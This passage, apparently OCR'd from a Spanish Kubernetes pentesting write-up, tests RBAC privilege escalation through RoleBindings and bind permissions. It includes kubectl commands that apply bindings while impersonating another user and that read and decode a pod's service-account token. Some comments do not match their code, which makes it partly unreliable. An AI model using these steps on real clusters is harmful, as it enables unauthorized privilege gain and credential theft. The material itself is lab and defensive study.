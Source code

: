 ```bash
  name: test-rb2
subjects:
  - kind: ServiceAccount
    name: test-sa
    apiGroup: ""
roleRef:
  kind: Role
  name: test-r2
  apiGroup: rbac.authorization.k8s.io' | kubectl apply -f -

# Crear un pod como usuario Test con el SA test-sa (paso de escalada de privilegios)
echo "apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: test-r2
subjects:
  - kind: ServiceAccount
    name: test-sa2
    apiGroup: ""
roleRef:
  kind: Role
  name: test-r2
  apiGroup: rbac.authorization.k8s.io"| kubectl --as Test apply -f -

# Conéctese al pod creado y confirme que el token SA adjunto pertenece a test-sa
kubectl exec -ti -n default test-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d "." -f2 | base64 -d

# Limpiar el escenario
kubectl delete rolebinding test-rb
kubectl delete rolebinding test-rb2
kubectl delete role test-r
kubectl delete role test-r2
kubectl delete serviceaccount test-sa
kubectl delete serviceaccount test-sa2
```

### Bindings explícitos

En la sección "Prevención de la escalada de privilegios y arranque" de [https://unofficial-kubernetes.readthedocs.io/en/latest/admin/authorization/rbac/](https://unofficial-kubernetes.readthedocs.io/en/latest/admin/authorization/rbac/) se menciona que si un SA puede crear un Binding y tiene permisos explícitos de Binding sobre el Rol/ClusterRole, puede crear Bindings incluso usando Roles/ClusterRoles con permisos que no tiene.\
Sin embargo, no funcionó para mí:

```yaml
# Crear 2 SAs, darle a uno de ellos permisos para crear clusterrolebindings
# y permisos de binding sobre el ClusterRole "admin"
echo 'apiVersion: v1
kind: ServiceAccount
metadata:
  name: test-sa
---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: test-sa2
---
kind: ClusterRole
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: test-cr
rules:
```